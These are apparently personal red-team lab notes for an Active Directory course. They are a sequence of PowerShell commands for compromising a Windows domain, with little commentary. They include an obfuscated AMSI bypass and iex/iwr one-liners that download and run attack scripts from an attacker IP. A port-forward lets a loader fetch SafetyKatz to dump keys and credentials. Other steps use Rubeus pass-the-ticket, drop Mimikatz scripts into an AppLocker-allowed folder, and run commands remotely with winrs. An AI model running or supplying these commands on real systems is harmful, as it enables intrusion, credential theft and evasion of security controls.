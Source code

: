 ```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)
iex(iwr 'http://172.16.100.48/Invoke-SessionHunter.ps1' -useb)
iex(iwr 'http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1' -useb)
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```

### Lateral 1 (Local Admin)
Add port forward to machine to forwards to webserver - downloading executable is bad
```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe

$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48"
```

Download from local loopback
```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```

Note down the `aes256_hmac` and the cleartext credentials 
Use Rubues on attacking machine
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

This will create a logon type 9 so the new credentials will only be used when accessing domain resources

### Lateral 2 (Local Admin + AppLocker)
Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy to AppLocker safe folder - can't dot source
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

Copy-Item C:\AD\Tools\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1

& 'C:\Program Files\Invoke-MimiEx-keys.ps1'
& 'C:\Program Files\Invoke-MimiEx-vault.ps1'
```

Use `runas` to open cmd 
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```